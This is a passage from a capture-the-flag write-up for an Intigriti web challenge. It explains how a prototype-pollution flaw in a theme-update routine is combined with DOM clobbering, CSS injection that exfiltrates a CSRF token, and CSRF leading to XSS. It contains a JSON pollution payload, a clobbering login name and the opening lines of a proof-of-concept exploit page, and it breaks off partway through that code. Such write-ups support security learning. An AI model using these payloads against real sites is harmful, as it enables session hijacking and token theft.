 ```js
        Secondary - Text: ${theme?.secondary?.text()}, Background: ${theme?.secondary?.bg()}
      `
      start()
    })
}

```
This type of vulnerability is often associated with operations such as `merge()`, `clone()` ecc ecc..., or when a query string is parsed.
In fact there is another pattern that can lead to prototype pollution, if `obj[a][b]=value` is present it can be vulnerable if you can control both `a` and `value`, as an attacker we can set `a` to `__proto__` and the property with the name defined by `b` will be defined on all existing objects of the application with the value defined by `value`.
Ehi, we can find this pattern inside the loop in the code above!

`initTheme` is in charge to update the themes, so in order to exploit this vulnerability we can update a theme from the website and provide the following content:

```json
{
  "__proto__":{
    "timeout":{
      "dark":"99999","light":"99999"
    },
    "match":{
      "dark":"1", "light":"1"
    }
  }
}
```

After the theme is loaded, `Object.prototype.match` will return 1 which means true, so after the DOM Clobbering is performed and javascript will look into the prototype, it will find out that `Object.prototype.timeout` will be true, in this way `document.domain.match(/testing/)` will not be false anymore.

Now that the condition is true, we also polluted `Object.prototype.timeout` , it will become a function that always returns "99999", in this way we have more time to perform our CSS Injection to exfiltrare the CSRF token and not 600ms anymore.

## Summary:

1. Log-in with the name `"><img name=domain>` to perform DOM clobbering in order to make the JS engine look into the proto chain.
2. Update theme and perform prototype pollution in order to make `Object.prototype.match` true and manipulate `Object.prototype.timeout`
3. Exiltrate the CSRF token via CSS injection
4. Execute the CSRF attack in order to submit the payload with nested conditions XSS + CSP bypass. 

## Final PoC:
Let's prepare `exploit.html`:

```html
<html>
<head>
    <script>
        const URL = 'https://challenge-0822.intigriti.io/challenge';
        const webhook = location.host;
        // prepare the id
        const ID = Math.floor(Math.random() * Math.pow(2, 32)).toString(16).padStart(8, '0');

        const sleep = (ms) => new Promise(r => setTimeout(r, ms));
        let w;

        function login(name) {
```